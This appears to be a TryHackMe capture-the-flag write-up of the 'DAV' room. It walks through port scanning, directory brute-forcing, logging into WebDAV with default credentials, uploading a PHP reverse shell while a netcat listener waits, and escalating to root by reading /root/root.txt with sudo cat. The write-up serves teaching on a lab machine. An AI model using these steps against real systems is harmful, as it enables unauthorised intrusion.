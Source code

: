 ```yaml
---
layout: post
title: "DAV"
date: 2022-03-28
categories: [Tryhackme, Easy-THM]
tags: [security]
image: ../../assets/img/posts/DAV.png 

---
```


## Description

boot2root machine for FIT and bsides guatemala CTF.

|**Room**|[DAV](https://tryhackme.com/room/bsidesgtdav)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Let's deploy the machine and we'll start with scanning open ports quickly with rustscan,

```bash
rustscan -a 10.10.190.162
```

![image](https://user-images.githubusercontent.com/67465230/160325747-6791a4b7-e2e2-4049-90a9-61241ed5fd07.png)

we get 1 open port. Lets scan this using nmap,

```bash
nmap -sV -sC -p80 10.10.190.162 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/160325754-7fcaea94-3b9e-4893-84b1-7f520e5a02d4.png)

Result scan reveals that port 80 is running webserver. Enumerate port 80.

Visit http://10.10.228.181,

![image](https://user-images.githubusercontent.com/67465230/160325758-ffe8e3d3-2b04-42aa-a244-449709c3755e.png)

we got a default apache webpage.

Let's brute force directories using dirsearch,

```bash
dirsearch -u http://10.10.228.181 -w /usr/share/seclists/Discovery/Web-Content/common.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/160325767-eb0f9c08-52bd-45a1-bcd5-8659d7e62c64.png)

we got a hidden directory **/webdav**.

Navigating to http://10.10.228.181/webdav,

![image](https://user-images.githubusercontent.com/67465230/160325778-dd70c5eb-149b-4637-a148-5889e6a46c45.png)

we are required to enter the login credentials. 

Since we don't have any sort of credentials, searching for them online get us to a blog post of [WebDav Default Credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

```md
cadaver is **a command-line WebDAV client for Unix**. It supports file upload, download, on-screen display, namespace operations (move/copy), collection creation and deletion, and locking operations.
```

Now, we can use cadaver tool to login into machine,

```bash
cadaver http://10.10.228.181/webdav
```

![image](https://user-images.githubusercontent.com/67465230/160325788-e288cea5-b16f-416b-94fd-88ebd4ef37fd.png)

providing it with default credentials and it will let us in.

Now, since we know that we are in webserver sub-directory /webdav, we can put a reverse shell and trigger it to get a reverse connection.

So, hosting python server using `python3 -m http.server`, start a netcat listener using `nc -nvlp 4444` and upload this shell on machine,

```bash
put php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/67465230/160325796-7d4925a9-ca02-4cf3-8455-057392547356.png)

Navigating to http://10.10.228.181/webdav,

![image](https://user-images.githubusercontent.com/67465230/160325803-5e8d433b-93bd-443f-a7d1-674889053b4b.png)

we can see our webshell here. Click on it to trigger it,

And we got a shell,

![image](https://user-images.githubusercontent.com/67465230/160325815-57d78a13-a6cf-49e6-a6ff-620f4fb13e37.png)

Since we got a shell and this does not have any functionality, we can improve this shell using 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Listing directory content in home directory,

![image](https://user-images.githubusercontent.com/67465230/160325823-24052c9e-47e7-469e-bfe0-9a7e3e582b1d.png)

and we can see 2 users, merlin (apart from wampp), which is our target.

Establish directory and we can see our user flag,

![image](https://user-images.githubusercontent.com/67465230/160325828-e718b1ea-2751-4724-a956-c99729f2c240.png)

Now, comes the privilege escalation part. We can list the binaries which we can run using sudo,

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/160325835-4bc771f9-e65e-4781-8c95-fd745a9af482.png)

we can run **/bin/cat** binary with sudo.

So, what we can do is that we can use /bin/cat binary and run it as root to read the root flag,

```bash
sudo /bin/cat /root/root.txt
```

and by this we can do read the root flag.